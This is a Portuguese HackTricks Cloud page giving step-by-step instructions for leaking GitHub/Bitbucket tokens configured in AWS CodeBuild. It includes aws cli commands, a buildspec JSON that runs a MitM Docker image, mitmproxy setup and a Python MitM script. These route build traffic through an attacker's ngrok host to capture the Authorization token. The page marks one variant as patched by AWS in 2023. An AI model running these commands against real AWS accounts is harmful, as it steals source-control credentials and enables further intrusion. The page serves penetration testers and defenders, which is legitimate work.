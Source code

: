 # AWS Codebuild - Vazamento de Token

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **versão mais recente do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo Telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no GitHub.

</details>

## Recuperar Tokens Configurados do Github/Bitbucket

Primeiro, verifique se existem credenciais de origem configuradas que você pode vazar:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Se você descobrir que a autenticação, por exemplo, para o Github está configurada na conta, você pode **extrair** esse **acesso** (token GH ou token OAuth) fazendo com que o Codebuild **use uma imagem Docker específica** para executar a compilação do projeto.

Para isso, você pode **criar um novo projeto Codebuild** ou alterar o **ambiente** de um existente para definir a **imagem Docker**.

A imagem Docker que você pode usar é [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta é uma imagem Docker muito básica que definirá as variáveis de ambiente `https_proxy`, `http_proxy` e `SSL_CERT_FILE`. Isso permitirá que você intercepte a maioria do tráfego do host indicado em `https_proxy` e `http_proxy` e confie no CERT SSL indicado em `SSL_CERT_FILE`.

1. **Crie e faça upload da sua própria imagem Docker MitM**
* Siga as instruções do repositório para definir o endereço IP do seu proxy e definir seu certificado SSL e **construir a imagem Docker**.
* **NÃO DEFINA `http_proxy`** para não interceptar solicitações para o endpoint de metadados.
* Você pode usar o **`ngrok`** como `ngrok tcp 4444` para definir o proxy para o seu host.
* Depois de construir a imagem Docker, **faça o upload dela para um repositório público** (Dockerhub, ECR...).
2. **Defina o ambiente**
* Crie um **novo projeto Codebuild** ou **modifique** o ambiente de um existente.
* Configure o projeto para usar a **imagem Docker gerada anteriormente**.

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **Configure o proxy MitM em seu host**
* Como indicado no **repositório do Github**, você pode usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **Executar a compilação e capturar as credenciais**

*   Você pode ver o token no cabeçalho **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Isso também pode ser feito a partir do aws cli com algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via protocolo HTTP~~

{% hint style="success" %}
**Essa vulnerabilidade foi corrigida pela AWS em algum momento na semana de 20 de fevereiro de 2023 (acho que na sexta-feira). Portanto, um invasor não pode mais explorá-la :)**
{% endhint %}

Um invasor com **permissões elevadas em um CodeBuild poderia vazar o token do Github/Bitbucket** configurado ou, se as permissões fossem configuradas via OAuth, o **token OAuth temporário usado para acessar o código**.

* Um invasor poderia adicionar as variáveis de ambiente **http\_proxy** e **https\_proxy** ao projeto CodeBuild apontando para sua máquina (por exemplo, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Em seguida, altere a URL do repositório do github para usar HTTP em vez de HTTPS, por exemplo: **http://**github.com/carlospolop-forks/TestActions
* Em seguida, execute o exemplo básico em [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porta apontada pelas variáveis de proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Por fim, clique em **Build the project**, as **credenciais** serão **enviadas em texto claro** (base64) para a porta mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Agora um atacante será capaz de usar o token em sua máquina, listar todos os privilégios que ele possui e (ab)usar mais facilmente do que usando o serviço CodeBuild diretamente.
{% endhint %}

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **versão mais recente do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

